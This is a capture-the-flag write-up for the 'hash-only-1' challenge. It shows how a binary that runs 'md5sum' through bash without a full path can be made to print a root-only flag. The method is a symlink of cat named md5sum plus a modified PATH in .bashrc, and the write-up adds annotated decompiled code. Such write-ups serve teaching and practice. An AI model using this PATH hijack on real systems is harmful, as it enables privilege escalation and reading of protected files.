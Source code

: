 ## hash-only-1

* Receive a `flaghasher` binary
* There's not really anything to overflow, and checksec shows a lot of strong controls in place
* Vulnerability rests in pathing; the binary constructs the following system call: `/bin/bash -c 'md5sum /root/flag.txt`
  * We override the path to have `md5sum` point to a different binary (like `cat`)
  * `ln -s /usr/bin/cat md5sum`
* After SSH-ing into the remote instance:
  * `echo 'export PATH="/home/ctf-player:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin"' >> ~/.bashrc`
  * `source ~/.bashrc`
* Then we run the binary
* Code below is the decompiled binary C++ code with comments

```c
#include <iostream>
#include <cstdlib>
#include <unistd.h>
#include <string>

bool main(void)
{
    // Pointers for output stream objects
    std::basic_ostream<> *pbVar1;
    std::basic_ostream<> *pbVar2;
    
    // Command to be executed
    char *__command;
    
    // Stack protection variable (used for detecting stack smashing)
    long in_FS_OFFSET;
    long local_20;
    
    // Boolean flag for checking system call success
    bool bVar3;

    // Local variables for handling string allocation
    std::allocator<char> local_4d;
    int local_4c;
    std::basic_string<> local_48[40];  // Buffer to store the command string

    // Store the current stack canary value (used for stack protection)
    local_20 = *(long *)(in_FS_OFFSET + 0x28);

    // Print message to stdout: "Computing the MD5 hash of /root/flag.txt...."
    pbVar1 = std::operator<<((std::basic_ostream *)std::cout, "Computing the MD5 hash of /root/flag.txt.... ");
    pbVar2 = (std::basic_ostream<> *)std::basic_ostream<>::operator<<((std::basic_ostream<> *)pbVar1, std::endl<>);
    std::basic_ostream<>::operator<<(pbVar2, std::endl<>);

    // Pause execution for 2 seconds
    sleep(2);

    // Initialize a string allocator (not strictly needed in modern C++)
    std::allocator<char>::allocator();
    
    // Construct the command string: "/bin/bash -c 'md5sum /root/flag.txt'"
    std::__cxx11::basic_string<>::basic_string((char *)local_48, (std::allocator<char> *)"/bin/bash -c 'md5sum /root/flag.txt'");
    
    // Destructor for the string allocator
    std::allocator<char>::~allocator(&local_4d);
```